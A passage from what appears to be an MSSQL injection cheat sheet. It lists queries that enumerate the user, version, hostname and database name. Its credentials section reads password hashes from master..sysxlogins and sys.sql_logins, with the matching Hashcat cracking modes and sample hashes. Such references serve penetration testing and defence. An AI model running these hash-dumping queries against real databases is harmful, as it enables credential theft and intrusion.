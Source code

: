 
## MSSQL User

\`\`\`sql
SELECT CURRENT_USER
SELECT user_name();
SELECT system_user;
SELECT user;
\`\`\`

## MSSQL Version

\`\`\`sql
SELECT @@version
\`\`\`

## MSSQL Hostname

\`\`\`sql
SELECT HOST_NAME()
SELECT @@hostname
SELECT @@SERVERNAME
SELECT SERVERPROPERTY('productversion')
SELECT SERVERPROPERTY('productlevel')
SELECT SERVERPROPERTY('edition');
\`\`\`

## MSSQL Database name

\`\`\`sql
SELECT DB_NAME()
\`\`\`


## MSSQL Database Credentials

* **MSSQL 2000**: Hashcat mode 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`
    \`\`\`sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
    \`\`\`
* **MSSQL 2005**: Hashcat mode 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`
    \`\`\`sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    \`\`\`


## MSSQL List databases
